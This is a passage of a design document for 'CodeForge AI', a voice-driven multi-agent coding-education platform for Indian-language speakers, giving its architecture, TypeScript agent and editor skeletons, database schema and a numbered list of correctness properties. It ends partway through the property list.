

# Design Document: CodeForge AI

## Overview

CodeForge AI is a voice-first, multi-agent orchestration platform that democratizes coding education for Indian language speakers. The system architecture follows a microservices pattern with specialized AI agents coordinated by a supervisor, a real-time collaborative IDE, and integrated deployment pipelines.

### Core Architecture Principles

1. **Agent-Based Architecture**: Specialized AI agents handle distinct responsibilities (planning, coding, tutoring)
2. **Event-Driven Communication**: Agents communicate via message queues for loose coupling
3. **Progressive Enhancement**: Core features work offline; AI features enhance when online
4. **Streaming Responses**: All AI interactions stream progressively for better UX
5. **Stateless Services**: Backend services are stateless for horizontal scalability

### High-Level System Architecture



## Architecture

### Frontend Architecture

**Technology Stack**: React 18, TypeScript, Tailwind CSS, Monaco Editor, Socket.IO Client


**Component Structure**:

```
src/
├── components/
│   ├── VoiceInput/
│   │   ├── VoiceRecorder.tsx       # Web Speech API integration
│   │   ├── LanguageSelector.tsx    # Hindi/Tamil/English toggle
│   │   └── TranscriptionDisplay.tsx
│   ├── Editor/
│   │   ├── MonacoEditor.tsx        # Code editor wrapper
│   │   ├── AIAssistPanel.tsx       # Real-time AI suggestions
│   │   ├── ErrorHighlighter.tsx    # Inline error display
│   │   └── CollaborationCursors.tsx
│   ├── Dashboard/
│   │   ├── ProjectList.tsx
│   │   ├── LearningProgress.tsx
│   │   └── AnalyticsDashboard.tsx
│   └── Deployment/
│       ├── DeploymentWizard.tsx
│       └── EnvironmentConfig.tsx
├── services/
│   ├── api.ts                      # API client
│   ├── websocket.ts                # Socket.IO client
│   ├── voiceService.ts             # Voice processing
│   └── cacheService.ts             # IndexedDB for offline
├── state/
│   ├── projectStore.ts             # Zustand store
│   ├── editorStore.ts
│   └── userStore.ts
└── hooks/
    ├── useVoiceInput.ts
    ├── useAIAssist.ts
    └── useCollaboration.ts
```

**Key Frontend Patterns**:

1. **State Management**: Zustand for global state, React Query for server state
2. **Code Splitting**: Lazy load Monaco Editor and heavy components
3. **Optimistic Updates**: Update UI immediately, sync with server asynchronously
4. **Service Workers**: Cache static assets and enable offline editing
5. **WebSocket Management**: Automatic reconnection with exponential backoff

### Backend Architecture

**Technology Stack**: Node.js, Express.js, TypeScript, LangChain.js, Socket.IO

**Service Decomposition**:

1. **API Gateway Service** (Port 3000)
   - Request routing and load balancing
   - Rate limiting and authentication middleware
   - Request/response transformation

2. **Voice Processing Service** (Port 3001)
   - Audio transcription using Web Speech API results
   - Language detection (Hindi/Tamil/English)
   - Intent extraction using IndicBERT
   - Text normalization and preprocessing

3. **Agent Orchestration Service** (Port 3002)
   - Supervisor Agent coordination logic
   - Task queue management (Bull/BullMQ)
   - Agent state management
   - Inter-agent communication via Redis pub/sub

4. **Project Management Service** (Port 3003)
   - CRUD operations for projects
   - File system management
   - Version control integration
   - Milestone tracking

5. **Real-Time Collaboration Service** (Port 3004)
   - Socket.IO server for WebSocket connections
   - Operational Transformation for concurrent edits
   - Presence tracking (active users, cursors)
   - Voice chat signaling

6. **Deployment Service** (Port 3005)
   - Vercel API integration
   - AWS Lambda deployment via CDK
   - Environment variable management
   - Deployment status tracking

7. **Analytics Service** (Port 3006)
   - Event tracking and aggregation
   - Learning pattern analysis
   - Performance metrics collection
   - Report generation

### Multi-Agent System Design

**Agent Communication Protocol**:

```typescript
interface AgentMessage {
  id: string;
  type: 'task' | 'query' | 'response' | 'error';
  from: AgentType;
  to: AgentType;
  payload: any;
  context: ConversationContext;
  timestamp: number;
}

interface ConversationContext {
  userId: string;
  projectId: string;
  sessionId: string;
  language: 'hi' | 'ta' | 'en';
  history: Message[];
}
```

**Supervisor Agent Logic**:

```typescript
class SupervisorAgent {
  async processUserRequest(request: UserRequest): Promise<AgentResponse> {
    // 1. Analyze request intent
    const intent = await this.analyzeIntent(request);
    
    // 2. Determine required agents
    const agents = this.selectAgents(intent);
    
    // 3. Create execution plan
    const plan = this.createExecutionPlan(agents, intent);
    
    // 4. Execute plan with monitoring
    const result = await this.executePlan(plan);
    
    // 5. Validate and return
    return this.validateAndFormat(result);
  }
  
  private selectAgents(intent: Intent): AgentType[] {
    const agentMap = {
      'create_project': ['planner', 'coder'],
      'explain_code': ['tutor'],
      'debug_error': ['tutor', 'coder'],
      'deploy_app': ['coder', 'deployment'],
      'generate_scaffold': ['planner', 'coder']
    };
    return agentMap[intent.type] || ['tutor'];
  }
}
```

**Planner Agent Design**:

```typescript
class PlannerAgent {
  async generateArchitecture(description: string): Promise<Architecture> {
    // 1. Extract requirements from description
    const requirements = await this.extractRequirements(description);
    
    // 2. Identify components
    const components = this.identifyComponents(requirements);
    
    // 3. Determine tech stack
    const techStack = await this.recommendTechStack(components);
    
    // 4. Create component diagram
    const diagram = this.generateMermaidDiagram(components);
    
    // 5. Break into milestones
    const milestones = this.createMilestones(components);
    
    return { components, techStack, diagram, milestones };
  }
  
  private identifyComponents(requirements: Requirement[]): Component[] {
    // Use LLM with structured output to identify:
    // - Frontend components
    // - Backend APIs
    // - Database schema
    // - External integrations
    // - Infrastructure needs
  }
}
```

**Coder Agent Design**:

```typescript
class CoderAgent {
  async generateCode(task: CodingTask): Promise<GeneratedCode> {
    // 1. Retrieve relevant context
    const context = await this.getContext(task);
    
    // 2. Generate code with streaming
    const code = await this.streamCodeGeneration(task, context);
    
    // 3. Add comments and documentation
    const documented = this.addDocumentation(code);
    
    // 4. Validate syntax
    const validated = await this.validateSyntax(documented);
    
    // 5. Format code
    return this.formatCode(validated);
  }
  
  private async streamCodeGeneration(
    task: CodingTask,
    context: CodeContext
  ): Promise<string> {
    const prompt = this.buildPrompt(task, context);
    
    // Stream from LLM with incremental updates
    let code = '';
    for await (const chunk of this.llm.stream(prompt)) {
      code += chunk;
      this.emitProgress(chunk);
    }
    
    return code;
  }
}
```

**Tutor Agent Design**:

```typescript
class TutorAgent {
  async provideFeedback(
    code: string,
    userLevel: SkillLevel
  ): Promise<Feedback> {
    // 1. Analyze code quality
    const analysis = await this.analyzeCode(code);
    
    // 2. Identify learning opportunities
    const opportunities = this.identifyLearningOpportunities(analysis);
    
    // 3. Generate explanations at appropriate level
    const explanations = await this.generateExplanations(
      opportunities,
      userLevel
    );
    
    // 4. Suggest improvements
    const suggestions = this.generateSuggestions(analysis);
    
    return { analysis, explanations, suggestions };
  }
  
  private async generateExplanations(
    opportunities: LearningOpportunity[],
    level: SkillLevel
  ): Promise<Explanation[]> {
    // Adjust complexity based on user level:
    // - Beginner: Simple analogies, step-by-step
    // - Intermediate: Technical terms with context
    // - Advanced: Concise, pattern-focused
  }
}
```

## Components and Interfaces

### Voice Interface Component

**Web Speech API Integration**:

```typescript
interface VoiceInputConfig {
  language: 'hi-IN' | 'ta-IN' | 'en-IN';
  continuous: boolean;
  interimResults: boolean;
  maxAlternatives: number;
}

class VoiceInputService {
  private recognition: SpeechRecognition;
  private isListening: boolean = false;
  
  constructor(config: VoiceInputConfig) {
    this.recognition = new webkitSpeechRecognition();
    this.configure(config);
  }
  
  startListening(): void {
    this.recognition.start();
    this.isListening = true;
  }
  
  stopListening(): void {
    this.recognition.stop();
    this.isListening = false;
  }
  
  onResult(callback: (transcript: string) => void): void {
    this.recognition.onresult = (event) => {
      const transcript = event.results[0][0].transcript;
      callback(transcript);
    };
  }
  
  onError(callback: (error: Error) => void): void {
    this.recognition.onerror = (event) => {
      callback(new Error(event.error));
    };
  }
}
```

**Language Processing Pipeline**:

```typescript
interface ProcessedInput {
  originalText: string;
  normalizedText: string;
  language: string;
  intent: Intent;
  entities: Entity[];
  confidence: number;
}

class IndicNLPProcessor {
  async process(text: string, language: string): Promise<ProcessedInput> {
    // 1. Normalize text (remove filler words, fix transliteration)
    const normalized = await this.normalize(text, language);
    
    // 2. Detect intent using IndicBERT
    const intent = await this.detectIntent(normalized);
    
    // 3. Extract entities (variable names, function names, etc.)
    const entities = await this.extractEntities(normalized);
    
    // 4. Calculate confidence
    const confidence = this.calculateConfidence(intent, entities);
    
    return {
      originalText: text,
      normalizedText: normalized,
      language,
      intent,
      entities,
      confidence
    };
  }
}
```

### Monaco Editor Integration

**Editor Configuration**:

```typescript
interface EditorConfig {
  language: string;
  theme: 'vs-dark' | 'vs-light';
  minimap: { enabled: boolean };
  fontSize: number;
  tabSize: number;
  autoSave: boolean;
  aiAssist: boolean;
}

class CodeEditor {
  private editor: monaco.editor.IStandaloneCodeEditor;
  private aiProvider: AICompletionProvider;
  
  constructor(container: HTMLElement, config: EditorConfig) {
    this.editor = monaco.editor.create(container, config);
    this.setupAIAssist();
    this.setupAutoSave();
  }
  
  private setupAIAssist(): void {
    // Register AI completion provider
    monaco.languages.registerCompletionItemProvider('javascript', {
      provideCompletionItems: async (model, position) => {
        const context = this.getContext(model, position);
        const suggestions = await this.aiProvider.getSuggestions(context);
        return { suggestions };
      }
    });
  }
  
  private setupAutoSave(): void {
    this.editor.onDidChangeModelContent(
      debounce(() => {
        this.saveToIndexedDB();
      }, 30000)
    );
  }
}
```

**Real-Time Collaboration**:

```typescript
interface CollaborationState {
  users: CollaborationUser[];
  cursors: Map<string, CursorPosition>;
  selections: Map<string, Selection>;
}

class CollaborationEngine {
  private socket: Socket;
  private ot: OperationalTransform;
  
  constructor(projectId: string) {
    this.socket = io(`/collaboration/${projectId}`);
    this.ot = new OperationalTransform();
    this.setupListeners();
  }
  
  private setupListeners(): void {
    this.socket.on('remote-change', (change: Change) => {
      const transformed = this.ot.transform(change);
      this.applyChange(transformed);
    });
    
    this.socket.on('cursor-move', (data: CursorUpdate) => {
      this.updateRemoteCursor(data);
    });
  }
  
  sendChange(change: Change): void {
    this.socket.emit('local-change', change);
  }
}
```

### Learning Curriculum Engine

**Milestone Generation**:

```typescript
interface Milestone {
  id: string;
  title: string;
  description: string;
  learningObjectives: string[];
  tasks: Task[];
  estimatedTime: number;
  prerequisites: string[];
  difficulty: 'beginner' | 'intermediate' | 'advanced';
}

class CurriculumEngine {
  async generateMilestones(
    project: Project,
    userLevel: SkillLevel
  ): Promise<Milestone[]> {
    // 1. Analyze project complexity
    const complexity = this.analyzeComplexity(project);
    
    // 2. Determine optimal milestone count (3-7)
    const milestoneCount = this.calculateMilestoneCount(complexity);
    
    // 3. Break project into logical stages
    const stages = this.identifyStages(project, milestoneCount);
    
    // 4. Create milestones with learning objectives
    const milestones = stages.map(stage => 
      this.createMilestone(stage, userLevel)
    );
    
    // 5. Add prerequisites and dependencies
    return this.linkMilestones(milestones);
  }
  
  private createMilestone(
    stage: ProjectStage,
    userLevel: SkillLevel
  ): Milestone {
    return {
      id: generateId(),
      title: stage.name,
      description: this.generateDescription(stage),
      learningObjectives: this.extractLearningObjectives(stage),
      tasks: this.breakIntoTasks(stage),
      estimatedTime: this.estimateTime(stage, userLevel),
      prerequisites: [],
      difficulty: this.assessDifficulty(stage, userLevel)
    };
  }
}
```

**Adaptive Learning System**:

```typescript
interface UserSkillProfile {
  userId: string;
  overallLevel: SkillLevel;
  domainSkills: Map<string, number>; // 0-100 score
  learningVelocity: number;
  strugglingAreas: string[];
  masteredConcepts: string[];
  lastUpdated: Date;
}

class AdaptiveLearningEngine {
  async adaptCurriculum(
    user: UserSkillProfile,
    milestone: Milestone
  ): Promise<Milestone> {
    // 1. Assess user's readiness for milestone
    const readiness = this.assessReadiness(user, milestone);
    
    // 2. Adjust difficulty if needed
    if (readiness < 0.6) {
      return this.simplifyMilestone(milestone);
    } else if (readiness > 0.9) {
      return this.advanceMilestone(milestone);
    }
    
    // 3. Add scaffolding for struggling areas
    const enhanced = this.addScaffolding(milestone, user.strugglingAreas);
    
    // 4. Skip redundant content for mastered concepts
    return this.removeRedundancy(enhanced, user.masteredConcepts);
  }
  
  async updateSkillProfile(
    user: UserSkillProfile,
    completedTask: Task,
    performance: Performance
  ): Promise<UserSkillProfile> {
    // Update skill scores based on task completion
    const updatedSkills = this.updateSkillScores(
      user.domainSkills,
      completedTask,
      performance
    );
    
    // Recalculate learning velocity
    const velocity = this.calculateVelocity(user, performance);
    
    // Identify new struggling areas or mastered concepts
    const { struggling, mastered } = this.analyzeProgress(updatedSkills);
    
    return {
      ...user,
      domainSkills: updatedSkills,
      learningVelocity: velocity,
      strugglingAreas: struggling,
      masteredConcepts: mastered,
      lastUpdated: new Date()
    };
  }
}
```

### Deployment Module

**Deployment Abstraction**:

```typescript
interface DeploymentTarget {
  provider: 'vercel' | 'aws-lambda';
  region?: string;
  environment: 'production' | 'staging';
  config: DeploymentConfig;
}

interface DeploymentConfig {
  envVars: Record<string, string>;
  buildCommand: string;
  outputDirectory: string;
  runtime: string;
}

abstract class DeploymentProvider {
  abstract deploy(project: Project, config: DeploymentConfig): Promise<DeploymentResult>;
  abstract rollback(deploymentId: string): Promise<void>;
  abstract getLogs(deploymentId: string): Promise<string[]>;
}

class VercelDeployment extends DeploymentProvider {
  private client: VercelClient;
  
  async deploy(
    project: Project,
    config: DeploymentConfig
  ): Promise<DeploymentResult> {
    // 1. Prepare project files
    const files = await this.prepareFiles(project);
    
    // 2. Create deployment
    const deployment = await this.client.createDeployment({
      name: project.name,
      files,
      env: config.envVars,
      buildCommand: config.buildCommand,
      outputDirectory: config.outputDirectory
    });
    
    // 3. Wait for build completion
    await this.waitForBuild(deployment.id);
    
    // 4. Return deployment URL
    return {
      id: deployment.id,
      url: deployment.url,
      status: 'ready',
      createdAt: new Date()
    };
  }
}

class AWSLambdaDeployment extends DeploymentProvider {
  private cdk: CDKClient;
  
  async deploy(
    project: Project,
    config: DeploymentConfig
  ): Promise<DeploymentResult> {
    // 1. Generate CDK stack
    const stack = this.generateCDKStack(project, config);
    
    // 2. Synthesize CloudFormation template
    const template = await this.cdk.synth(stack);
    
    // 3. Deploy stack
    const deployment = await this.cdk.deploy(template);
    
    // 4. Get API Gateway URL
    const url = await this.getAPIGatewayURL(deployment);
    
    return {
      id: deployment.stackId,
      url,
      status: 'ready',
      createdAt: new Date()
    };
  }
}
```

## Data Models

### Core Entities

**User Model**:

```typescript
interface User {
  id: string;
  email: string;
  passwordHash: string;
  name: string;
  preferredLanguage: 'hi' | 'ta' | 'en';
  skillProfile: UserSkillProfile;
  subscription: Subscription;
  createdAt: Date;
  lastLoginAt: Date;
}

interface Subscription {
  plan: 'free' | 'premium';
  status: 'active' | 'expired' | 'cancelled';
  startDate: Date;
  endDate: Date;
  paymentMethod: string;
}
```

**Project Model**:

```typescript
interface Project {
  id: string;
  userId: string;
  name: string;
  description: string;
  type: 'web-app' | 'api' | 'mobile' | 'hackathon';
  language: 'javascript' | 'typescript' | 'python' | 'java';
  architecture: Architecture;
  milestones: Milestone[];
  currentMilestone: string;
  files: ProjectFile[];
  deployments: Deployment[];
  collaborators: string[];
  createdAt: Date;
  updatedAt: Date;
}

interface ProjectFile {
  path: string;
  content: string;
  language: string;
  lastModified: Date;
  modifiedBy: string;
}
```

**Learning Analytics Model**:

```typescript
interface LearningSession {
  id: string;
  userId: string;
  projectId: string;
  startTime: Date;
  endTime: Date;
  milestoneId: string;
  tasksCompleted: string[];
  codeGenerated: number; // lines of code
  aiInteractions: number;
  errorsEncountered: ErrorEvent[];
  conceptsLearned: string[];
}

interface ErrorEvent {
  timestamp: Date;
  errorType: string;
  errorMessage: string;
  resolved: boolean;
  resolutionTime?: number;
  aiAssistUsed: boolean;
}
```

### Database Schema

**PostgreSQL Tables**:

```sql
-- Users table
CREATE TABLE users (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  email VARCHAR(255) UNIQUE NOT NULL,
  password_hash VARCHAR(255) NOT NULL,
  name VARCHAR(255) NOT NULL,
  preferred_language VARCHAR(2) DEFAULT 'en',
  created_at TIMESTAMP DEFAULT NOW(),
  last_login_at TIMESTAMP
);

-- Projects table
CREATE TABLE projects (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id UUID REFERENCES users(id) ON DELETE CASCADE,
  name VARCHAR(255) NOT NULL,
  description TEXT,
  type VARCHAR(50),
  language VARCHAR(50),
  architecture JSONB,
  current_milestone UUID,
  created_at TIMESTAMP DEFAULT NOW(),
  updated_at TIMESTAMP DEFAULT NOW()
);

-- Milestones table
CREATE TABLE milestones (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  project_id UUID REFERENCES projects(id) ON DELETE CASCADE,
  title VARCHAR(255) NOT NULL,
  description TEXT,
  learning_objectives JSONB,
  tasks JSONB,
  estimated_time INTEGER,
  difficulty VARCHAR(20),
  completed BOOLEAN DEFAULT FALSE,
  completed_at TIMESTAMP,
  order_index INTEGER
);

-- Project files table
CREATE TABLE project_files (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  project_id UUID REFERENCES projects(id) ON DELETE CASCADE,
  path VARCHAR(500) NOT NULL,
  content TEXT,
  language VARCHAR(50),
  last_modified TIMESTAMP DEFAULT NOW(),
  modified_by UUID REFERENCES users(id),
  UNIQUE(project_id, path)
);

-- Learning sessions table
CREATE TABLE learning_sessions (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id UUID REFERENCES users(id) ON DELETE CASCADE,
  project_id UUID REFERENCES projects(id) ON DELETE CASCADE,
  milestone_id UUID REFERENCES milestones(id),
  start_time TIMESTAMP NOT NULL,
  end_time TIMESTAMP,
  tasks_completed JSONB,
  code_generated INTEGER DEFAULT 0,
  ai_interactions INTEGER DEFAULT 0,
  concepts_learned JSONB
);

-- Subscriptions table
CREATE TABLE subscriptions (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id UUID REFERENCES users(id) ON DELETE CASCADE,
  plan VARCHAR(20) NOT NULL,
  status VARCHAR(20) NOT NULL,
  start_date TIMESTAMP NOT NULL,
  end_date TIMESTAMP NOT NULL,
  payment_method VARCHAR(100),
  razorpay_subscription_id VARCHAR(255)
);

-- Deployments table
CREATE TABLE deployments (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  project_id UUID REFERENCES projects(id) ON DELETE CASCADE,
  provider VARCHAR(50) NOT NULL,
  deployment_id VARCHAR(255) NOT NULL,
  url VARCHAR(500),
  status VARCHAR(20),
  environment VARCHAR(20),
  created_at TIMESTAMP DEFAULT NOW()
);

-- Indexes for performance
CREATE INDEX idx_projects_user_id ON projects(user_id);
CREATE INDEX idx_milestones_project_id ON milestones(project_id);
CREATE INDEX idx_files_project_id ON project_files(project_id);
CREATE INDEX idx_sessions_user_id ON learning_sessions(user_id);
CREATE INDEX idx_sessions_project_id ON learning_sessions(project_id);
```

**Redis Data Structures**:

```typescript
// Agent task queue
// Key: agent:{agentType}:tasks
// Type: List
// Value: JSON serialized AgentMessage

// User session cache
// Key: session:{userId}
// Type: Hash
// Fields: { projectId, language, lastActivity, socketId }
// TTL: 7 days

// Code completion cache
// Key: completion:{fileHash}:{position}
// Type: String
// Value: JSON serialized suggestions
// TTL: 1 hour

// Collaboration presence
// Key: collab:{projectId}:users
// Type: Set
// Value: userId
// TTL: 5 minutes (refreshed on activity)

// Rate limiting
// Key: ratelimit:{userId}:{endpoint}
// Type: String
// Value: request count
// TTL: 1 minute
```


## Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system—essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

### Voice Interface Properties

**Property 1: Voice capture language support**
*For any* audio input in Hindi or Tamil, the Voice_Interface should successfully capture and process the audio without language-related errors.
**Validates: Requirements 1.1**

**Property 2: Transcription performance**
*For any* captured audio sample, transcription to text should complete within 2 seconds.
**Validates: Requirements 1.2**

**Property 3: Language model processing**
*For any* transcribed text, the System should process it using the appropriate Indic language model based on the detected language.
**Validates: Requirements 1.3**

**Property 4: Poor audio quality handling**
*For any* audio input with quality below threshold, the Voice_Interface should request user to repeat the input rather than proceeding with unreliable transcription.
**Validates: Requirements 1.4**

**Property 5: Language switching without restart**
*For any* language switch operation, the Voice_Interface should adapt to the new language without requiring system restart or session interruption.
**Validates: Requirements 1.6**

### Natural Language Understanding Properties

**Property 6: Requirement extraction accuracy**
*For any* project description in Hindi or Tamil, the System should extract key requirements with at least 85% accuracy when compared to human-annotated ground truth.
**Validates: Requirements 2.1**

**Property 7: Ambiguity detection and clarification**
*For any* ambiguous input (multiple valid interpretations), the System should ask clarifying questions in the user's preferred language before proceeding.
**Validates: Requirements 2.2**

**Property 8: Terminology recognition across forms**
*For any* code-related term, the System should recognize it whether expressed in English or transliterated form (e.g., "function" vs "फंक्शन").
**Validates: Requirements 2.3**

**Property 9: Conversational context preservation**
*For any* multi-turn conversation, information from earlier turns should remain accessible and influence processing of later turns.
**Validates: Requirements 2.4**

**Property 10: Code-switching handling**
*For any* input mixing Hindi/Tamil with English technical terms, the System should correctly parse and process both language components.
**Validates: Requirements 2.5**

### Multi-Agent Orchestration Properties

**Property 11: Agent delegation correctness**
*For any* user request type, the Supervisor_Agent should delegate to the appropriate specialized agent(s) based on request intent.
**Validates: Requirements 3.1**

**Property 12: Agent execution sequencing**
*For any* task requiring multiple agents, the Supervisor_Agent should execute them in a valid dependency order where each agent's inputs are satisfied by previous agents' outputs.
**Validates: Requirements 3.2**

**Property 13: Failure recovery through reassignment**
*For any* agent failure during task execution, the Supervisor_Agent should detect the failure and reassign the task to an available agent.
**Validates: Requirements 3.3**

**Property 14: Output validation before progression**
*For any* completed agent task, the Supervisor_Agent should validate the output meets quality criteria before proceeding to dependent tasks.
**Validates: Requirements 3.4**

**Property 15: Task execution logging**
*For any* task execution, the System should create log entries that are accessible to the user showing task status and results.
**Validates: Requirements 3.5**

### Project Planning Properties

**Property 16: Architecture generation performance**
*For any* project description, the Planner_Agent should generate a component architecture within 30 seconds.
**Validates: Requirements 4.1**

**Property 17: Component type identification completeness**
*For any* generated architecture, the Planner_Agent should identify all applicable component types (frontend, backend, database, infrastructure).
**Validates: Requirements 4.2**

**Property 18: Technology stack appropriateness**
*For any* project type, the Planner_Agent should recommend a technology stack where each component is suitable for the identified requirements.
**Validates: Requirements 4.3**

**Property 19: Visual diagram generation**
*For any* component architecture, the Planner_Agent should generate a valid Mermaid diagram showing component relationships.
**Validates: Requirements 4.4**

**Property 20: Milestone breakdown generation**
*For any* project architecture, the Planner_Agent should generate a milestone breakdown with 3-7 milestones based on project complexity.
**Validates: Requirements 4.6, 8.1**

### Code Generation Properties

**Property 21: Syntactic correctness**
*For any* generated code in the target language, parsing the code with the language's parser should succeed without syntax errors.
**Validates: Requirements 5.1, 5.6**

**Property 22: Code quality standards compliance**
*For any* generated code, running a linter configured with industry best practices should produce no violations for structure and naming conventions.
**Validates: Requirements 5.2**

**Property 23: Comment presence**
*For any* generated code containing logic, inline comments should be present explaining key operations and decision points.
**Validates: Requirements 5.3**

**Property 24: Code modularity**
*For any* generated code, cyclomatic complexity should remain below 10 per function and coupling metrics should indicate loose coupling between modules.
**Validates: Requirements 5.4**

**Property 25: Exact dependency versioning**
*For any* generated project with dependencies, all package specifications should include exact version numbers (not ranges or wildcards).
**Validates: Requirements 5.5**

### AI Tutoring Properties

**Property 26: Suggestion response time**
*For any* code editing action, contextual suggestions from the Tutor_Agent should appear within 1 second.
**Validates: Requirements 6.1**

**Property 27: Error explanation language matching**
*For any* detected error, the Tutor_Agent should provide explanations in the user's preferred language as specified in their profile.
**Validates: Requirements 6.2**

**Property 28: Solution approach variety**
*For any* problem requiring a solution, the Tutor_Agent should offer at least 2 different valid approaches with explanations.
**Validates: Requirements 6.3**

**Property 29: Conceptual explanation depth**
*For any* "why" question from the user, the Tutor_Agent should provide explanations that include underlying concepts, not just procedural steps.
**Validates: Requirements 6.4**

**Property 30: Adaptive explanation complexity**
*For any* explanation, the complexity level (vocabulary, depth, examples) should match the user's skill level as recorded in their profile.
**Validates: Requirements 6.5, 15.6**

**Property 31: Simplified alternatives on repeated struggle**
*For any* concept where the user has failed 3+ times, the Tutor_Agent should offer a simplified alternative approach or additional scaffolding.
**Validates: Requirements 6.6**

### IDE Properties

**Property 32: Autocomplete suggestion provision**
*For any* code typing action, the IDE should offer autocomplete suggestions based on language context and available symbols.
**Validates: Requirements 7.2**

**Property 33: Real-time error indication**
*For any* syntax or semantic error in code, the IDE should display an error indicator with hover explanation within 1 second of the error being introduced.
**Validates: Requirements 7.3**

**Property 34: AI feedback code highlighting**
*For any* AI-provided feedback referencing specific code, the IDE should highlight the relevant code sections visually.
**Validates: Requirements 7.4**

**Property 35: Auto-save timing**
*For any* code editing session, the IDE should trigger auto-save operations every 30 seconds (±2 seconds).
**Validates: Requirements 7.6**

### Learning Curriculum Properties

**Property 36: Milestone count bounds**
*For any* project, the generated milestone count should be between 3 and 7 inclusive, based on project complexity.
**Validates: Requirements 8.1**

**Property 37: Learning objective clarity**
*For any* milestone, the learning objectives should be explicitly stated and measurable.
**Validates: Requirements 8.2**

**Property 38: Sequential milestone unlocking**
*For any* milestone sequence, milestone N+1 should remain locked until milestone N is marked complete.
**Validates: Requirements 8.3**

**Property 39: Completion summary generation**
*For any* completed milestone, the System should generate a summary listing the concepts learned during that milestone.
**Validates: Requirements 8.4**

**Property 40: Previous milestone accessibility**
*For any* completed milestone, the user should be able to access and review its content even after progressing to later milestones.
**Validates: Requirements 8.5**

### Adaptive Learning Properties

**Property 41: Progressive difficulty increase**
*For any* user completing tasks faster than the baseline velocity, subsequent task difficulty should increase progressively.
**Validates: Requirements 9.2**

**Property 42: Scaffolding on struggle**
*For any* user taking longer than 2x expected time on a task, the System should provide additional hints or scaffolding.
**Validates: Requirements 9.3**

**Property 43: Velocity-based pacing adjustment**
*For any* user, milestone pacing (time allocation) should adjust based on their measured learning velocity relative to baseline.
**Validates: Requirements 9.4**

**Property 44: Redundancy skipping on mastery**
*For any* concept where the user demonstrates mastery (3+ consecutive successes), redundant practice exercises for that concept should be skipped.
**Validates: Requirements 9.5**

**Property 45: Skill profile evolution**
*For any* completed task, the user's skill profile should update to reflect demonstrated competencies and areas of struggle.
**Validates: Requirements 9.6**

### Hackathon Scaffolding Properties

**Property 46: Scaffold generation performance**
*For any* hackathon theme, complete project scaffold generation should complete within 60 seconds.
**Validates: Requirements 10.1**

**Property 47: Theme-appropriate templates**
*For any* hackathon theme, generated starter templates should include components and patterns relevant to that theme domain.
**Validates: Requirements 10.2**

**Property 48: Build tool configuration completeness**
*For any* generated scaffold, configuration files for build tools, linters, and testing frameworks should be present and valid.
**Validates: Requirements 10.3**

**Property 49: README documentation presence**
*For any* generated scaffold, a README file should exist containing setup instructions and project overview.
**Validates: Requirements 10.4**

**Property 50: Git initialization with ignore rules**
*For any* generated scaffold, a Git repository should be initialized with a .gitignore file appropriate for the project's language and framework.
**Validates: Requirements 10.5**

**Property 51: Theme-relevant API suggestions**
*For any* hackathon theme, suggested APIs and libraries should be relevant to common use cases within that theme domain.
**Validates: Requirements 10.6**

### Real-Time Collaboration Properties

**Property 52: Unique collaboration link generation**
*For any* session sharing request, the System should generate a unique, non-guessable collaboration link.
**Validates: Requirements 11.1**

**Property 53: Change synchronization latency**
*For any* code change in a collaborative session, all participants should see the change within 500ms.
**Validates: Requirements 11.2**

**Property 54: Cursor and selection visibility**
*For any* collaborative session, each participant's cursor position and text selection should be visible to all other participants.
**Validates: Requirements 11.3**

**Property 55: Edit attribution display**
*For any* code change in a collaborative session, the username of the participant who made the change should be displayed.
**Validates: Requirements 11.4**

**Property 56: Edit history with attribution**
*For any* collaborative session, the edit history should record each change with attribution to the participant who made it.
**Validates: Requirements 11.6**

### Deployment Properties

**Property 57: Pre-deployment validation**
*For any* deployment request, the Deployment_Module should run validation checks (syntax, dependencies, configuration) before initiating deployment.
**Validates: Requirements 12.1**

**Property 58: Secure environment variable handling**
*For any* deployment with environment variables, the variables should be transmitted and stored using encryption and never logged in plain text.
**Validates: Requirements 12.3**

**Property 59: Deployment completion time**
*For any* successful deployment, a live URL should be available within 3 minutes of deployment initiation.
**Validates: Requirements 12.4**

**Property 60: Actionable deployment error messages**
*For any* deployment failure, the error message should include specific information about what failed and suggested remediation steps.
**Validates: Requirements 12.5**

**Property 61: Deployment rollback capability**
*For any* project with multiple deployments, the System should support rolling back to any previous deployment version.
**Validates: Requirements 12.6**

### Version Control Properties

**Property 62: Automatic Git initialization**
*For any* newly created project, a Git repository should be initialized automatically.
**Validates: Requirements 13.1**

**Property 63: Milestone completion commits**
